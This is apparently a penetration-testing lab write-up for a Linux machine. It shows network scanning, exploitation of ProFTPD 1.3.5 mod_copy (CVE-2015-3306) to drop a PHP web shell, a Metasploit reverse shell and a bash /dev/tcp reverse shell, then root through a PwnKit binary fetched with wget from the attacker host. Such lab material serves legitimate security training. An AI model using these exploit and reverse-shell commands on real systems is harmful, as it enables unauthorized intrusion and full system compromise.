

# Task 4

- Machine: ERULNX16
- Status: Done
- Category: Linux / Unix
- Keywords: ProFTPD 1.3.5, PwnKit, RCE

# Reconnaissance

## Netdiscover

```bash
$ sudo netdiscover -r 192.168.122.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                            
                                                                                                                                                          
 1 Captured ARP Req/Rep packets, from 1 hosts.   Total size: 42                                                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.122.254 52:54:00:5d:25:8f      1      42  Unknown vendor   
```

## Nmap

```bash
$ nmap -sC -sV -v -T4 192.168.122.254

--SNIP--
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 2b:2e:1f:a4:54:26:87:76:12:26:59:58:0d:da:3b:04 (DSA)
|   2048 c9:ac:70:ef:f8:de:8b:a3:a3:44:ab:3d:32:0a:5c:6a (RSA)
|   256 c0:49:cc:18:7b:27:a4:07:0d:2a:0d:bb:42:4c:36:17 (ECDSA)
|_  256 a0:76:f3:76:f8:f0:70:4d:09:ca:e1:10:fd:a9:cc:0a (ED25519)
80/tcp   open   http        Apache httpd 2.4.7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2020-10-29 19:37  chat/
| -     2011-07-27 20:17  drupal/
| 1.7K  2020-10-29 19:37  payroll_app.php
| -     2013-04-08 12:06  phpmyadmin/
|_
|_http-title: Index of /
445/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
|_http-server-header: CUPS/1.7 IPP/2.1
|_http-title: Home - CUPS 1.7.2
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
| http-robots.txt: 1 disallowed entry 
|_/
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
|_http-server-header: Jetty(8.1.7.v20120910)
|_http-title: Error 404 - Not Found
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
8181/tcp closed intermapper
MAC Address: 52:54:00:5D:25:8F (QEMU virtual NIC)
Service Info: Host: 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: ubuntu
|_  System time: 2025-10-09T02:00:05+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-09T02:00:04
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 2s, median: 0s
```



Found ProFTP 1.3.5 is vulnerable to RCE

Exploit : https://github.com/t0kx/exploit-CVE-2015-3306

# Initial Foothold

```bash
$ python3 exploit.py --host 192.168.122.254 --port 21 --path "/var/www/html"
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 192.168.122.254:21
[+] Target exploited, acessing shell at http://192.168.122.254/backdoor.php
[+] Running whoami: www-data
[+] Done
```

```bash
$ curl http://192.168.122.254/backdoor.php?cmd=whoami
proftpd: 192.168.122.222:52140: SITE cpto /tmp/.www-data
```

```bash
$ curl http://192.168.122.254/backdoor.php?cmd=ls    
proftpd: 192.168.122.222:52140: SITE cpto /tmp/.backdoor.php
chat
drupal
payroll_app.php
phpmyadmin
test.php
```

Remote Code Execution (RCE) was successful.

Tried multiple reverse shell payloads, but none have worked so far.

Currently exploring payload options in Metasploit.

```bash
msf > search proftp 1.3.5

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_modcopy_exec  2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_modcopy_exec

msf >
```

```bash
msf > use 0
msf exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.122.254
msf exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
msf exploit(unix/ftp/proftpd_modcopy_exec) > set payload payload/cmd/unix/reverse_perl
```

```bash
msf exploit(unix/ftp/proftpd_modcopy_exec) > run
[*] Started reverse TCP handler on 192.168.122.222:4444 
[*] 192.168.122.254:80 - 192.168.122.254:21 - Connected to FTP server
[*] 192.168.122.254:80 - 192.168.122.254:21 - Sending copy commands to FTP server
[*] 192.168.122.254:80 - Executing PHP payload /DpG6IdL.php
[+] 192.168.122.254:80 - Deleted /var/www/html/DpG6IdL.php
[*] Command shell session 3 opened (192.168.122.222:4444 -> 192.168.122.254:45666) at 2025-10-08 23:19:35 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ bash -i >& /dev/tcp/192.168.122.222/9001 0>&1
bash -i >& /dev/tcp/192.168.122.222/9001 0>&1
```

```bash
$ nc -lnvp 9001                                                                                       
listening on [any] 9001 ...
connect to [192.168.122.222] from (UNKNOWN) [192.168.122.254] 40868
www-data@ubuntu:/var/www/html$
```

# Privilege Escalation

Use linPEAS to search for possible paths to escalate privileges

```bash
www-data@ubuntu:/tmp$ ./linpeas.sh | tee -a linpeas.log

--SNIP--

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                          

--SNIP--

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
   
--SNIP--
```

https://github.com/ly4k/PwnKit/

```bash
$ vim PwnKit.c
                                                                                                                                                            
$ gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
                                                                                                                                                            
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.122.254 - - [08/Oct/2025 23:51:16] "GET /PwnKit HTTP/1.1" 200 -
```

```bash
www-data@ubuntu:/tmp$ wget 192.168.122.222:8080/PwnKit
--2025-10-09 03:51:16--  http://192.168.122.222:8080/PwnKit
Connecting to 192.168.122.222:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16800 (16K) [application/octet-stream]
Saving to: 'PwnKit'

100%[======================================>] 16,800      --.-K/s   in 0s      

2025-10-09 03:51:16 (41.0 MB/s) - 'PwnKit' saved [16800/16800]

www-data@ubuntu:/tmp$ ls
PwnKit  hsperfdata_root  linpeas.sh  sess_c661f0f9336015240eb730d01d5efe6c
f       linpeas.log      pwn.c
www-data@ubuntu:/tmp$ chmod +x PwnKit
www-data@ubuntu:/tmp$ ./PwnKit 
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp#
```
